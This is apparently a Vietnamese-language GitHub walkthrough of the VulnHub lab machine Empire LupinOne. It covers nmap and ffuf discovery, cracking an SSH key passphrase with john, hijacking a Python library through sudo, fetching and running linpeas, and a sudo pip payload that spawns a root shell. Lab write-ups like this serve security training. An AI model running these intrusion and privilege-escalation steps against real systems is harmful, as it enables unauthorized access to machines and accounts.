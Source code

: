 # Lab
**I. EMPIRE LUPIN ONE**

Nguồn hướng dẫn:[Đây](https://www.hackingarticles.in/empire-lupinone-vulnhub-walkthrough/)

1. Tìm kiếm mục tiêu, quét cổng

   Đầu tiên dùng netdiscover tool để khám phá mạng xung quanh, tìm địa chỉ IP mục tiêu:
   `netdiscover`
   
   Sau khi đã có IP máy mục tiêu, quét các cổng bằng Nmap tool:
   
   `nmap -sC -sV 192.168.1.4`
   
   ![image](https://github.com/tninh27/Lab/assets/105789492/f20bdbc8-360a-4bec-9106-99a9aafe3fee)
   
  Ta có:
  - cổng 22 có máy chủ SSH
  - cổng 80 có dịch vụ HTTP (Apache Server), một thư mục /~myfiles

2. Liệt kê

  Dùng trình duyệt xem folder /~myfiles:
  
  ![image](https://github.com/tninh27/Lab/assets/105789492/3ed47e03-fa62-4b7a-86c6-f6f5b4dd5568)
  
  Thử xem bằng chế độ view-source:
  
  ![image](https://github.com/tninh27/Lab/assets/105789492/28c2d911-58d7-49af-85fa-274503a15888)
  
  - Đã có gợi ý đầu tiên

  Dùng kỹ thuật Fuzzing với ffuf tool, xem các thư mục:
  
  `ffuf -c -w /usr/share/wordlists/wfuzz/webservices/ws-dirs.txt -u 'http://192.168.1.4/~FUZZ'`
  
  ![image](https://github.com/tninh27/Lab/assets/105789492/ff4b2830-82c3-491a-9ee2-86627c65f0cf)
  
  - Tìm thấy thư mục bí ẩn secret, mở bằng trình duyệt:

  ![image](https://github.com/tninh27/Lab/assets/105789492/2ae6fe73-c722-41a7-a28f-4f746c62e0ec)
  
  - Gợi ý tên tài khoản đăng nhập là: icex64, khóa sshkey

  Để tìm khóa ssh  đó, tiếp tục sử dụng fuzzing với ffuf tool :
  
  `ffuf -c -ic -w /usr/share/wordlists/wfuzz/webservices/ws-dirs.txt -u 'http://192.168.1.4/~secret/.FUZZ' -fc 403 -e .txt,.html`
  
  ![image](https://github.com/tninh27/Lab/assets/105789492/e03160b8-ab89-40bd-a163-86fe5112a5de)
  
  - Tìm thấy tệp bí mật secret.txt, mở bằng trình duyệt:

  ![image](https://github.com/tninh27/Lab/assets/105789492/7a80106b-63d8-4343-be97-13c76bc3b08f)

  - Tìm được 1 đoạn mã code base58, giải mã nó ta được khóa ssh sau

  ![image](https://github.com/tninh27/Lab/assets/105789492/e4ef6819-5fc8-42e3-a84b-b4b835f78e41)
  
  Tiến hành lưu trữ lại khóa tìm được này vào file *ssh*
  
3. Khai thác

  Dùng ssh2john, băm file *sshkey* vào file *hash* :
  
  `/usr/share/john/ssh2john.py sshkey > hash`
  
   Dùng john, bẻ khóa giá trị băm:
   
  `john --wordlist=/usr/share/wordlists/fasttrack.txt hash`
  
  ![image](https://github.com/tninh27/Lab/assets/105789492/cc291c25-80fb-4c8e-ac2a-a7331c2005da)
  
  - Mật khẩu: P@55w0rd!

  Đăng nhập tài khoản *icex64* bằng khóa *sshkey* và mật khẩu vừa tìm được:
  
  `ssh -i sshkey icex64@192.168.1.4 `
  
  ![image](https://github.com/tninh27/Lab/assets/105789492/4aea8796-5900-4f89-99cc-4a537defdc5a)
  
  Kiểm tra quyền:
  `sudo -l`
  
  ![image](https://github.com/tninh27/Lab/assets/105789492/eaa6b75c-aa5b-4865-bb11-123451aecc52)
  
  - Tìm được người dùng arsense có thể khai thác bằng các chiếm thư viện python

  Xem nội dung file heist.py:
  
  ![image](https://github.com/tninh27/Lab/assets/105789492/f854b90d-b81d-4f45-9a8d-a11ddd1eb19f)
  
4. Leo thang đặc quyền

  Tải Linpeas tool từ Github, cấp quyền thực thi cho nó: [Linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
  
  `wget https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS`
  
  `chmod +x ./linpeas.sh`
  
  Tiến hành chạy linpeas:
	`./linpeas.sh`
 
  ![image](https://github.com/tninh27/Lab/assets/105789492/12216f46-ebf6-4888-8983-66dea24c3530)
  
  - Tìm được đường dẫn thư mục thư viện python

  Dùng nano sửa file trên, thêm lệnh /bin/bash:
  
  ![image](https://github.com/tninh27/Lab/assets/105789492/22d716ac-8a01-49ab-a8a5-c664d9cfdc70)
  
  Chuyển người dùng icex64 sang arsene:
  
  `sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py `
  
  ![image](https://github.com/tninh27/Lab/assets/105789492/f8f4b692-7a97-4faf-94ce-df9486abaf45)
  
  Kiểm tra quyền tài khoản arsene:
  `sudo -l `
  
  ![image](https://github.com/tninh27/Lab/assets/105789492/9b0646cf-cc53-4520-874d-88d289923f9f)
  
  - Thấy có quyền thực thi nhị phân pip mà không cần xác minh root, tiến hành leo thang đặc quyền:

  `TF=$(mktemp -d)
  echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
  sudo pip install $TF`

  ![image](https://github.com/tninh27/Lab/assets/105789492/055efa6f-b949-4888-9681-f32caf49769e)

  - Đã đăng nhập tài khoản root, xem file root.txt:

  ![image](https://github.com/tninh27/Lab/assets/105789492/0d60f705-2c87-4cd3-9c38-f556889ec9f0)



















